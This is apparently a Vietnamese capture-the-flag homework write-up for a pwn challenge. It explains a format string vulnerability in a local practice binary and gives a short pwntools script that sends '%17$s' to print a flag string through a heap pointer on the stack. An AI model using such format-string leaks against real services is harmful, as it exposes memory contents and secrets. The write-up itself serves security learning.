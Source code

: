 # Bài tập về nhà PWN

## 1. chall 1
- Dễ thấy bài nãy bị dính lỗi fmt, trên stack chứa con trỏ heap tới chuỗi ```flag``` nên ý tưởng là dùng định dạng ```%s``` để in chuỗi đó ra.
```py
from pwn import *

baitap = process("./chall1")

baitap.sendline('%17$s')
print(baitap.recv())
```

